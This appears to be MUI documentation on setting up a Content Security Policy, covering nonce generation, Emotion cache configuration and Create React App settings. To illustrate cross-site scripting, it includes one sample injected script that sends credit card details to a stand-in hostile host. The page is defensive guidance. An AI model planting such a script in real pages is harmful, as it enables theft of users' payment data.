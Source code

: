 # Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with MUI (and emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to the Emotion's cache so it can add it to subsequent `<style>`.

:::warning
Note, if you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from Emotion and add the `prepend: true` option.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default.
This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build.
This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
